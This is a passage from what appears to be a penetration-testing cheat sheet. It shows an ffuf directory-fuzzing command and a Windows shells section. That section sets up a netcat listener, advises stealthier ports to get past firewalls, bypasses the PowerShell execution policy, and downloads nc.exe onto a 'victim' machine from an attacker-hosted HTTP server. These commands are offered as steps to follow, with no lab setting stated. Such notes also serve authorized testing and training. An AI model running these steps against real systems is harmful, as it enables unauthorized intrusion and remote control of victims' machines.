 
Option name: -e

```plaintext
./ffuf -w /root/Desktop/SecLists-master/Discovery/Web-Content/raft-large-directories.txt -u https://xyz.com/FUZZ -e .html,.php,.txt,.pdf
```

- *Sometimes it gives you valuable information. Which is maybe goldmine on your penetration testing/bug hunting.For this, you have to choose extension base on your target*

<br>

<br>
<br>

# Shells

### Windows

#### Revshells

---

```powershell
https://www.revshells.com/
```

- *great website that does most of the work for you*

<br>

#### Catch the shell using NC

---

```bash
nc -lvnp 9999
#listen on Port 9999
```

- *start a listener on Port 9999*
- *prefer to use stealthier ports, sometimes a firewall is in between *

<br>

#### Upload nc.exe to victim

---

```bash
cp /usr/share/windows-resources/binaries/nc.exe .
#copy to local directory

python3 -m http.server 8000
#serve the file 

powershell.exe -ep bypass 
#bypass script-block

IwR -Uri http://10.10.10.10:8000/nc.exe -Outfile nc.exe
#on victim machine, download nc.exe
```
